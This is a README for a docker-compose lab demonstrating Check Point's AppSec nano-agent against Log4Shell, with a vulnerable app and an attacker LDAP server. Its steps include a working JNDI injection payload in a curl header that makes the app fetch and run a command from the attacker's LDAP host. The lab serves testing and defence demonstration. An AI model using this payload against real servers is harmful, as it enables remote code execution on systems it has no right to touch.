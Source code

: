# Check Point CloudGuard AppSec demo
 
 This is a simple docker-compose environment for deploy a Check Point AppSec embedded nano-agent demo.  
 It will deploy 4 containers, an NGINX reverse proxy, an agent-container (the nano-agent), Log4J vulnerable App and Attacker with malicious LDAP.
 The LDAP malicious server is builded at moment the creation.

You will reach all the Vulnerable application with the exposed 80 port from the NGINX server, the default.conf file already redirects all the request to the app.

## Instructions:
 
* Clone the repository
* From a machine with docker and docker-compose installed, run:  
`  export TOKEN=<your agent token>`  
`  docker-compose up `  
`  from another machine run "curl "http://docker host ip address"" and if you recieve "status":400,"error":"Bad Request","path":"/" as response, the server is properly listening`
`  from the same machine now run "curl "http://docker host ip address" -H 'X-Api-Version: ${jndi:ldap://malicious:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'" this last request inject the LDAP call in the log and the Log4J vulnerable dependency try to execute it, connecting to the malicious server and executing a "touch /tmp/pwned" command`
`  in the docker host we can run "docker ps" and look for a container with the name log4shell-log4shell grab the ID and run "docker logs -f "ID of container"" you will see the logs of the server when executes the command`
`  in the docker host again we can run with the same container ID 'docker exec "ID of container" ls /tmp/' and you will see the file created by the attack`
`  docker-compose down `  
 

> Notes: 
> There are two ways to run docker compose: `docker-compose` and `docker compose`. Using `docker compose` (with a space, not a hyphen) is 'experimental' from a Docker perspective and seems to decide on its own value for IPC configuration and breaks this setup. Use `docker-compose` please :).
> I you want to learn more about the Reverse Proxy, you can see the 'default' file inside the /nginx-reverse-proxy folder, this is mounted to the container to provide Host Rules and Ingress Routes
